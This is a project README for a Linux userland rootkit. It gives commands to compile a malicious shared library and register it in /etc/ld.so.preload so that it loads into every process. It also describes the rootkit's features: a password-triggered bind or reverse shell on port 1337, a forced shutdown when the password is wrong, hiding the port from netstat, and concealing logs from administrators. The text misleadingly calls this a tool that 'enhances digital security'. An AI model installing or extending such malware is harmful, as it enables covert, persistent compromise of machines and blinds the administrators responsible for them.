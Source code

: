 ## Introduction

Welcome to my rootkit userland This toolkit offers some cool and interesting functionalities designed to enhance your digital security. Let's dive into what it can do.

## INSTALL MAKE

1) *install with Make*
```
# make
```
## INSTALL MANUAL

1) git clone:
```
git clone https://github.com/DARKSECshell/ROOTKIT-USERLAND
```

3) userland rootkit compilation
```
gcc DRK.c -o DRK.so -shared -fPIC -ldl
```

5) moved library for /etc/ld.so.preload
```
echo "$(pwd)/DRK.so" > /etc/ld.so.preload && ldconfig
```

7) Check rk loading
```
ldd /usr/bin/ls
```


## Functionality Overview

When the digital attacker issues the command to kill port 1337, an interesting sequence of events unfolds:

1. **Password Prompt**: Upon attempting to kill port 1337, the rootkit will prompt for a password.
   
2. **Password Verification**: If the provided password matches the expected one, the rootkit will proceed to the next step.
   
3. **Incorrect Password Handling**: If the password provided does not match the expected one, the machine will initiate a shutdown process.

But what happens if the correct password is entered?

4. **Port 1337 Hiding**: The rootkit will stealthily hide port 1337 from detection. Even tools like `netstat` (and possibly `ss` in the future) will be deceived.

5. **Bind Shell Activation**: Additionally, the rootkit will activate a bind shell on the local machine. While firewalls may attempt to block it, the user will have the option to choose between a reverse shell or a bind shell.

6. **Log Concealment**: The rootkit ensures that commands like `tail` will have no effect. Sysadmins won't be able to spot suspicious activity in logs, nor will they be able to use other tools to inspect them.

7. **Future Plans**: Looking ahead, I'm considering further enhancements to make the rootkit even more stealthy. For instance, I'm contemplating hiding `/etc/ld.so.preload` to minimize suspicion from sysadmins.


> [!CAUTION]
> Advises about risks or negative outcomes of certain actions.
